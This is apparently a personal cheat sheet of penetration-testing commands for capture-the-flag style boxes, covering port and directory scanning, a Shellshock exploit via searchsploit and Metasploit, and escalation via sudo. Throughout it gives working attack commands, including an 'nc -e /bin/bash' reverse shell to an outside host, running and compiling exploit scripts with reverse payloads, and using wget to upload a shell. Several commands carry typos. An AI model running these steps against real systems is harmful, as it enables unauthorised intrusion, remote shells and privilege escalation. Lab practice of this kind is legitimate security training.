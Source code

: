 # don-t-forget
For us to easily remember the things we forgot
netcad 
nc -nvlp port for listening ports wich is we wanna use that
next type id next ls or pwd
nc -e /bin/bash host and port when we enter system 
nmap:
nmap -sS -A -v -p --min-rate 99999 host 

when the site open u must use /robots.txt
/cgi-bin/
/cgi-bin/user.sh

gobuster:
gobuster dir -u http://host -w /usr/share/worldlists/dirbuster/directory-list-2.3-medium.txt -x .ph,.txt,.conf,.doc,.sh

nikto -h host

searcsploit (shell shock) -m
vim (payload extension)

if u have a payload for ex
python 34900.py rhost=ip(host) lhost=ip(host) payload=reverse(or bind)

we can compile exploit wirth gcc
gcc -o exploit 44298.c 
and ls 


python -m SimpleHHTPServer 80

chmod +x exploit for giving a permission(x using execute)

msfconsole
set rpath /cgi-bin/user.sh

sudo -l say to us u can run this commands

wget for upload shell

sudo -u scriptmanager /bib/bash this means u get a scriptmanager rank

next time ls -la shows to us permission  
